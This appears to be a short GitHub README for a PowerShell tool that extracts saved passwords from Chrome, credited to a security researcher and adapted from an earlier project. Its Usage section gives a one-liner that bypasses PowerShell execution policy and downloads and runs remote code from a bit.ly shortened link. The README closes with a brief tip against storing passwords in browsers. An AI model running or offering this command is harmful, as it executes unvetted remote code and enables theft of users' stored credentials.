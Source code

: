 # credgrap_crhome

Content:      Extract stored credentials from Chrome

Author:       Florian Hansemann | @HanseSecure | https://hansesecure.de

Source:       Chrome extraction imported from https://github.com/sekirkity/BrowserGather (project seems dead)

Modification: Chrome Credential extraction fixed and cookie extraction deleted (buggy)

Date:          04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2FcJJ3k’)"

## Recommendation

Don't save any passwords within your browser and use password safes ;-)
